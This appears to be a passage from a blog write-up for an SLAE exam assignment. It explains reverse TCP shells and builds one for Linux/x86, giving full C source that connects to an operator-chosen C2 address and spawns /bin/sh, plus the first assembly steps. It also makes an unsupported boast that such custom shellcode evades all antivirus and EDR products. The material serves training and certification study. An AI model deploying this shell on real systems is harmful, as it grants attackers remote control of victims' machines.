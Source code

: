 # SLAE Exam Assignment 2 - Creating a Reverse TCP shellcode

## Prologue
So the second task that we have for our SLAE certification exam is creating a reverse TCP shellcode for Linux/x86 architecture using the knowledge that we have gathered from the wonderful course and the shellcoding techniques that we have accumulated over time.

To be honest this was easily one of my most favourite assignments that I had the pleasure of doing.

Why so? Let me tell you why.

So we create Meterpreter reverse TCP payloads all the time for exploitation purposes right? But invariably what happens is our payload getting caught and detected by AVs and EDRs. But that's all history now.
No more getting caught by AVs and EDRs and next-gen security products because now we can create our very own custom reverse TCP shellcode that is capable of bypassing all of the aforementioned security solutions!
Also there's no ignoring the fact that we hacker tribes get a different joy from using our own custom tools wherever possible in red-teaming engagements/CTFs yada yada yada.

So without any further ado let's get down with it!

## So what is Reverse TCP anyway?
Let's look at a visual representation first and then we'll talk about it.

![Reverse TCP Overview](../assets/images/reverse_tcp_overview.png "Reverse TCP Overview")

We can clearly see from this image that in case of a Reverse TCP shell, the client a.k.a. the victim/target machine beacons out to the server a.k.a. the attacker machine who is listening for connections at a specified port. Now after the server receives a connection, it can then send out commands to the client for it to execute on the victim machine.

Since the direction of connection is reversed from a Bind TCP connection(first post remember?), it is also known as Reverse TCP.

So how is this useful?

Well in certain restricted environments which is almost always the case you will not be able to use a Bind TCP shell to get access because the firewall is going to block the incoming connection request to the victim machine.
But a Reverse TCP shell can be used in those scenarios because the firewall most likely will not block a machine of their own network from making a connection attempt to an outside machine!

So all in all, Reverse TCP shells are very useful in penetration testing and this payload is what we use on almost every occassion with a few exceptions.

## A C Prototype first
If we are going to program in something as low-level as machine code it is only fair that we first create a prototype in a high-level language like C/C++ to conceptualize it and get a template for creating our assembly code right?

```c
// Filename: reverse_tcp.cpp
// Author: Upayan a.k.a. slaeryan
// Purpose: This is a x86 Linux reverse TCP shell written in C/C++ that inputs
// the C2 address and the port from the console by the operator.
// Usage: ./reverse_tcp 192.168.1.104 8080
// Note: The connection attempt is not tuned so run the listener first.
// Compile with:
// g++ reverse_tcp.cpp -o reverse_tcp
// Testing: nc -lnvp 8080

#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <stdlib.h>

//#define C2_ADDR "192.168.1.104"
//#define C2_PORT 8080 

int main(int argc, char const *argv[])
{
	// Console C2 Address input from operator
	char* C2_ADDR = (char*)argv[1];
	// Console C2 Port input from operator
	char* c2portstring = (char*)argv[2];
	int C2_PORT = atoi(c2portstring);
  	// Declaring a sockaddr_in struct and an int var for socket file descriptor
	struct sockaddr_in client;
	int sockfd;
	// Initializing the sockaddr_in struct
	client.sin_family = AF_INET;
	client.sin_addr.s_addr = inet_addr(C2_ADDR);
	client.sin_port = htons(C2_PORT);
	// 1st Syscall for creating the socket
	sockfd = socket(AF_INET, SOCK_STREAM, 0);
	// 2nd Syscall for connect()
	connect(sockfd, (struct sockaddr *)&client, sizeof(client));
	// 3rd Syscall for dup2()
	dup2(sockfd, 0); // STDIN
	dup2(sockfd, 1); // STDOUT
	dup2(sockfd, 2); // STDERR
	// 4th Syscall for execve()
	execve("/bin/sh", 0, 0);
	return 0;
}
```

And here is a fully-functional C source for a reverse shell payload. Stripping the C code down to it's essential details, we note the following syscalls to be made in our assembly code:

1. socket
1. connect
1. dup2
1. execve

Beautiful! Now let's get started with recreating the payload in ASM.

## Creating the assembly program
### Clearing registers
The first set of instructions are almost always the same which is clearing the register sets we will be using in our program.

```nasm
; Clearing the first 4 registers for 1st Syscall - socket()
xor eax, eax       ; May also sub OR mul for zeroing out
xor ebx, ebx       ; Clearing out EBX 
xor ecx, ecx       ; Clearing out ECX
cdq                ; Clearing out EDX 
```

Note that we didn't use XOR'ing for clearing the EDX register instead we used cdq which actually copies the sign bit of EAX register into each bit position in EDX register essentially clearing it out. This saved us 3 bytes in the process ;)
### Socket syscall
Now we will initiate the socket syscall using the good ol' software interrupt 80h.

```nasm
; Syscall value for socket() = 359 OR 0x167, loading it in AX
mov ax, 0x167
; Loading 2 in BL for AF_INET - 1st argument for socket()
mov bl, 0x02
; Loading 1 in CL for SOCK_STREAM - 2nd argument for socket()
mov cl, 0x01
; socket() Syscall
int 0x80
; Storing the return value - socket fd in EAX to EBX for later usage
mov ebx, eax
```




